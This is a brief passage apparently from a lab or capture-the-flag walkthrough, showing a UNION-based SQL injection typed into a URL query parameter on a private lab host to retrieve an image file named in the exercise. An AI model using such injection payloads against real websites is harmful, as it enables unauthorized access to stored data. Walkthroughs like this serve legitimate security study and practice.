

3.3 InjectIng the query into the URL
Now you have to get the “dsa32.jpg” image and you can do it injecting a query into the URL.
1. Construst the query.
union select 1,image,3 from art--+
2. Create the URL and browse it.
http://192.168.12.59/?tag='union select 1,image,3 from art--+

3. Download the image.